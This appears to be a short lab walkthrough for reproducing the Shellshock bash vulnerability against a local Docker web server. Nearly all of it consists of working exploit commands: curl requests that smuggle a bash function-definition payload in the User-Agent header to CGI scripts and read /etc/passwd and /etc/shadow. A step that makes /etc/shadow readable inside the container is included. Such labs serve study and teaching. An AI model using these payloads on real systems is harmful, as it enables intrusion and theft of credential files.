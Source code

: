 # Start web server
docker-compose up -d


# Launch the attack
View in a browser: http://127.0.0.1:8080/
curl http://127.0.0.1:8080/cgi-bin/demo.cgi
curl http://127.0.0.1:8080/cgi-bin/stats

curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd;'" http://your-ip:8080/cgi-bin/stats
curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd;'" http://127.0.0.1:8080/cgi-bin/stats

curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'cat /etc/shadow;'" http://127.0.0.1:8080/cgi-bin/stats
docker exec -it web-server bash
chmod +r /etc/shadow


curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd;'" http://127.0.0.1:8080/cgi-bin/info



